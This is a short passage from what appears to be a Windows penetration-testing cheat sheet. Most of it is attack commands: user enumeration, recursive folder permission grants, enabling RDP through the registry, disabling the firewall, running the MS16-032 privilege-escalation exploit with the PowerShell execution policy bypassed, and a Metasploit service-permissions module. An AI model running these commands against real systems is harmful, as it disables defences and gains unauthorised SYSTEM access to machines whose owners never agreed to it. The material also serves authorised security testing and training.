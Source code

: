 ```text
net user
```

#### Info about a user:

```text
net user <username>
```

#### Permissions on a folder recursively:

```text
cacls *.* /t /e /g domainname\administrator:f
```

## Enable RDP access

This is useful to do because generally it is easier to manipulate windows using the GUI. The downside is that you're most definitely will have an impact on the machine, as you may have to create a user or change a user's password to get in.

```text
reg add "hklm\system\currentcontrolset\control\terminal server" /f /v fDenyTSConnections /t REG_DWORD /d 0
netsh firewall set service remoteadmin enable
netsh firewall set service remotedesktop enable
```

#### Disable firewall

```text
netsh firewall set opmode disable
```

#### Run exploit

```text
C:\tmp>powershell -ExecutionPolicy ByPass -command "& { . C:\tmp\Invoke-MS16-032.ps1; Invoke-MS16-032 }"
```

### JAWS

```text
https://411hall.github.io/JAWS-Enumeration/
```

## Metasploit

Module to elevate privileges to SYSTEM by creating a service or hijacking existing ones with incorrect permissions

```text
exploit/windows/local/service_permissions
```
